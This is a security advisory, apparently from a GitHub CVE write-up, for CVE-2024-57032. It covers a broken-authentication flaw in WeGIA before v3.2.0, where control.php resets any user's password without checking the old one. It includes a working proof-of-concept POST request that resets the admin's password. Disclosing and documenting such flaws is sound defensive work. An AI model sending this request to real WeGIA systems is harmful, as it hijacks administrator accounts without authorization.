


## CVE-2024-57032: Broken Authentication - Old Password

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2024-57032*

## Vendor

<p style="text-align: justify;"> WeGIA (Web Gerenciador Institucional) is an integrated management system licensed under the GNU GPL v3.0, designed to enhance administration, control, and transparency for institutions. </p>

[https://www.wegia.org](https://www.wegia.org/)

[https://sol.sbc.org.br/index.php/latinoware/article/view/31544](https://sol.sbc.org.br/index.php/latinoware/article/view/31544)

## Affected Product Code Base

WeGIA < v3.2.0

## Vulnerability Description

<p style="text-align: justify;">A security vulnerability was identified in the web application WeGIA, where it is possible to change a user's password without verifying the old password. This issue exists in the control.php endpoint and allows unauthorized attackers to bypass authentication and authorization mechanisms to reset the password of any user, including admin accounts.</p>

## POC

Vulnerable Endpoint: `POST /WeGIA/controle/control.php`

HTTP Request Example:

`````html
POST /WeGIA/controle/control.php HTTP/1.1
Host: comfirewall.wegia.org:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 149

senha_antiga=A&nova_senha=wegia&confirmar_senha=wegia&nomeClasse=FuncionarioControle&metodo=alterarSenha&redir=logout.php&id_pessoa=1&alterar=Alterar
`````

### Observations:

<p style="text-align: justify;">Missing Password Validation: The senha_antiga parameter is not validated, allowing the password to be reset without verifying the user's existing password.</p>

<p style="text-align: justify;">Change the default password wegiafrom admin user and use a random value in the field senha_antiga:</p>



Login with the new password:



## References

[https://github.com/nilsonLazarin/WeGIA/issues/814](https://github.com/LabRedesCefetRJ/WeGIA/issues/814)

[https://www.wegia.org](https://www.wegia.org/)

[https://github.com/LabRedesCefetRJ/WeGIA/](https://github.com/LabRedesCefetRJ/WeGIA/)

## Discoverer

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette) 

> *By: [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*